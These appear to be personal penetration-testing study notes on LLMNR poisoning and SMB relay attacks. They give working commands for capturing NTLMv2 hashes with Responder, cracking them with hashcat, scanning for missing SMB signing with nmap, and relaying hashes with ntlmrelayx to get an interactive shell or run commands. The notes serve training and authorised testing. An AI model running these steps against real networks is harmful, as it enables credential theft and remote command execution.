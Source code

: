 ## LLMNR Poisoning:

LLMNR (Link Local Multicast Name Resolution), is used to identify hosts when DNS fails to do so. It was previously known as NBT-NS.

The key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to. This attack is a MITM attack.

LLMNR Poisoning can be carried out using the below steps:

- Run **_responder_** using the following syntax: **_`responder -I tun0 -dwP -v`_**. Responder is mainly used to intercept and respond to network traffic.

**NOTE:** The **_`-I`_** switch is used to specify the type of network adapter being used by the attacker machine, either **_tun0_** or **_eth0_**.

- You can simulate an SMB share connection by entering this **_`\\<kali IP>\`_** in the folder path section of the Windows File Explorer. 

 When the Windows target machine makes a connection attempt, the **_responder_** intercepts this request and extracts the target's IP address, username and the NTLMv2 hash.

![[Pasted image 20250121003128.png]]

- This extracted hash can be further cracked using **_`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`_**.
***
## SMB Relay Attacks:

In SMB Relay attack, hashed gathered with responder are not cracked but relayed to specific machines to gain access. 

**NOTE:** **SMB signing** must be disabled or not enforced on the target. The credentials being relayed must be admin credentials to have any real value.

### Steps to perform SMB Relay attack:

- Identify hosts without SMB signing. This can be done using Nmap Scripts with the following command:
**_`nmap --script=smb2-security-mode.nse -p 445 <target IP>`_**

![[Pasted image 20250205184023.png]]

- Once a host with **_Message signing enabled but not required_** message being displayed has been identified, the following changes have to be made to responder within the **_`/etc/responder/Responder.conf`_**

![[Pasted image 20250205184408.png]]

For hashes to be relayed and not just captured, make sure to turn **_SMB_** and **_HTTP_** switches off. 

- Once this setup has been done, run responder using **_`responder -I <relevant network interface> -dwP -v`_**

Then setup the relay using **_`impacket-ntlmrelayx.py -tf <target list file> -smb2support`_**

**NOTE:** The target list file will contain the IP address of the target with **_Message signing enabled but not required_** message being displayed.

- In order to intercept the hashes, the target machine should establish a connection. When the connection attempt is made, the relayed hashes are dumped to the **_ntlmrelayx_** output.

**NOTE:** **_`impacket-ntlmrelayx.py -tf <target.txt> -smb2support -i`_** can be used to get an interactive shell which is provided by the **_`-i`_** flag. 
 
![[Pasted image 20250206012929.png]]

To connect to this shell, launch a NetCat Bind shell on the KALI machine with the port number mentioned within the relay output.
![[Pasted image 20250206013019.png]]

**NOTE:** You can also run a command with the relay using the **_`-c`_** switch:
**_`impacket-ntlmrelayx -tf target.txt -smb2support -c "whoami"`_**

![[Pasted image 20250207010111.png]]
***
